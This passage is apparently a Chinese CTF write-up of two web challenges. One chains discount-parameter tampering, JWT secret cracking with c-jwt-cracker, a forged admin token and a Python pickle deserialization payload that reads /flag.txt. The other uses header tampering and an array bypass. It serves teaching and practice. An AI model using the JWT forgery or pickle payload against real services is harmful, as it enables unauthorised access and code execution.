Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。  
猜测是使用反序列化漏洞读取文件。看了dalao的博客发现可以加以利用，[资料](http://www.polaris-lab.com/index.php/archives/178/)，并且还有dalao写了极为完善的[脚本](https://github.com/sensepost/anapickle/blob/master/anapickle.py)，尝试使用dalao的脚本：
```
import os
import marshal
import base64
import _pickle as cPickle
import urllib

class genpoc(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()",))

e = genpoc()
poc = cPickle.dumps(e)

print (urllib.parse.quote(poc))
```
这里要注意的是要用python2去生成，python3生成出来的东西没有办法使用qaq。  
得到flag

----
# [极客大挑战 2019]BuyFlag
首先进去又是熟悉的主页，然后我们发现header里面有一个user=0，改成user=1，提示输入password，查看源码发现有post字样，典型的加空格绕过，但是我post过后没有任何的反应？？？？  
查看wp后发现我header又是里面没有`Content-Type: application/x-www-form-urlencoded`。然后又提示我pay，于是post上去money=100000000，提示过长，数组绕过。  
得到flag

----
